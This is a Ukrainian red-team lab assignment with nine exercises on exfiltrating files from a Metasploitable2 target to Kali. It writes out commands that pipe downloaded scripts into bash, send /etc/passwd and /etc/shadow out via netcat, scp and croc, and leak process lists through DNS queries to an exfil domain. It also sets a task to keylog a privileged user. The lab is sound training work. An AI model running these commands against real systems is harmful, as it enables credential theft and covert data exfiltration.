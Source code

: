 
# 🛡️ Lab 7: Домашнє Завдання: Ексфільтрація та передача даних (Red Team практикум)

Цей блок домашніх завдань орієнтований на практичне відпрацювання технік ексфільтрації файлів із Metasploitable2 або інших цільових машин у контрольованих середовищах. Кожне завдання **має бути виконане, задокументоване** і містити:

---

## 📦 Завдання 1: Ексфільтрація через Netcat

**Мета:** Передати файл `/etc/passwd` з Metasploitable2 на Kali через Netcat.

🔹 Команди:
- Kali:
  ```bash
  nc -lvnp 9000 > passwd_copy
  ```
- Metasploitable2:
  ```bash
  nc <kali_ip> 9000 < /etc/passwd
  ```

✅ *Надати підтвердження, що файл отримано.*

---

## 🌐 Завдання 2: Передача через `curl | bash`

**Мета:** Завантажити скрипт з Kali і виконати його на Metasploitable2 без збереження.

🔹 Kali:
```bash
python3 -m http.server 80
```

🔹 Metasploitable2:
```bash
curl http://<kali_ip>/payload.sh | bash
```

✅ *Вивід виконання скрипта.*

---

## 🔐 Завдання 3: Використання SCP

**Мета:** Передати файл з Metasploitable2 на Kali або навпаки.

🔹 З таргета:
```bash
scp /etc/shadow kali@<kali_ip>:/tmp/shadow_copy
```

✅ *Підтвердити копіювання. Якщо не вдалося — описати чому (SSH, firewall, auth).*

---

## 🧬 Завдання 4: Base64 передача вручну

**Мета:** Кодувати файл у base64 на Kali, вручну вставити на Metasploitable2, відновити.

🔹 Kali:
```bash
base64 -w0 test.sh
```

🔹 Metasploitable2:
```bash
echo "<base64_string>" > file.b64
base64 -d file.b64 > restored.sh
chmod +x restored.sh
```

✅ *Показати, що файл працює.*

---

## 🧠 Завдання 5: Якщо немає curl/wget — використання Bash TCP `/dev/tcp`

**Мета:** Отримати скрипт без curl/wget через `bash`.

🔹 Bash-функція:
```bash
function __wget() {
    ...
}
```

🔹 Команда:
```bash
__wget http://<kali_ip>/file.sh | bash
```

✅ *Якщо не працює — пояснити.*

---

## 🌐 Завдання 6: Ексфільтрація через DNS (capture-only)

**Мета:** Передати дані з Metasploitable2 у вигляді DNS-запитів і перехопити на Kali.

🔹 Kali:
```bash
tcpdump -i any port 53 -w dnslog.pcap
```

🔹 Metasploitable2:
```bash
# Python-скрипт, що генерує DNS-запити з даними
```

✅ *Витягти дані з pcap через tshark або вручну.*

---

## 🚀 Завдання 7: Передача через `croc`

**Мета:** Встановити `croc`, передати файл `shadow`, отримати на Kali.

🔹 Metasploitable2:
```bash
curl https://getcroc.schollz.com | bash
croc send /etc/shadow
```

🔹 Kali:
```bash
croc <code>
```

✅ *Файл повинен дійти повністю.*

---

## 📤 Завдання 8: Власний upload-сервер + передача через curl з авторизацією

**Мета:** Завантажити файл на сервер з Basic Auth.

🔹 Kali:
```bash
python3 upload_server.py  # Flask сервер з Basic Auth
```

🔹 Metasploitable2:
```bash
curl -u user:pass -F "files=@/etc/hostname" http://<kali_ip>:8000/upload
```

✅ *Файл повинен з’явитись на сервері.*

---

## 🔑 Завдання 9: Реалізувати техніку Keylogger

**Мета:** Отримати команди які вводитиме адміністратор msfadmin або kali

🔹 Отримати PID із терміналу не на пряму, а використовуючи ексфільтрацію даних або інший спосіб, що дозволить отримати PID привілейованого користувача

```bash
ps aux | grep -E 'bash|zsh' | grep -v $$ | grep -v grep | base64 | tr -d '\\n' | fold -w50 | while read x; do host $x.exfil.yourdomain.com; done

```
🔹 Підключитись до цього PID та отримати дані які  вводить привілейований користувач.
🔹 Спробувати різні методи отримання даних, як збереження у файл і отримання через nc так і якісь автоматизовані техніки.

✅ *Отримано команди із терміналу*

---

## 📌 Формат звіту:

Кожне завдання оформити у вигляді:

```
### Завдання X: Назва
✅ Вивід / скріншот
🧠 Як вирішували
❌ Якщо не спрацювало — чому
🔁 Інші варіанти (опціонально)
```

---

Успіхів! 👾
